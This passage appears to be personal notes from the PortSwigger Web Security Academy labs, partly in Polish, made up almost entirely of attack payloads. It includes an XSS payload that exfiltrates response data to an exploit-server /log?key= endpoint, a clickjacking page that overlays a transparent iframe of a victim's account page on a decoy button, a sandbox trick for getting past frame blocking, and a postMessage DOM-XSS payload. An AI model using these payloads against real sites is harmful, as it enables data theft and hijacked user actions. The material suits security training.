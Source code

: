 ```
    	    location='https://exploit-0a2f009e035fee0ec04523210103003d.web-security-academy.net/log?key='%2bthis.responseText; 
    	    };
    	%3c/script>
        &storeId=1"
    </script>
```

# CLICKJACKING
```
    <head>
    	<style>
    		iframe {
    			position:relative;
    			width:700px;
    			height:600px;
    			opacity:0.51;
    			z-index:2;
    			}
    		div {
    			position:absolute;
    			top:500px;
    			left: 80px;
    			z-index:1;
    			}
    	</style>
    </head>
```
```
    <body>
            <div>
            <button>click</button>
            </div>
    	<iframe src="https://0ae300220338ea26c0e098a70076003a.web-security-academy.net/my-account"> </iframe>
    </body>
```
### Jeśli strona blokuje odpalanie jej w framie pomóc może dodanie sandbox="allow-forms":
```
<iframe src="https://0a3d000a04b97a33c050232a0098006e.web-security-academy.net/my-account" sandbox="allow-forms"> </iframe>
```


# DOM-based vunabilities

## Web messages
```
<iframe src="https://0ad400b70311a7c0c07419ee0014008f.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```
	
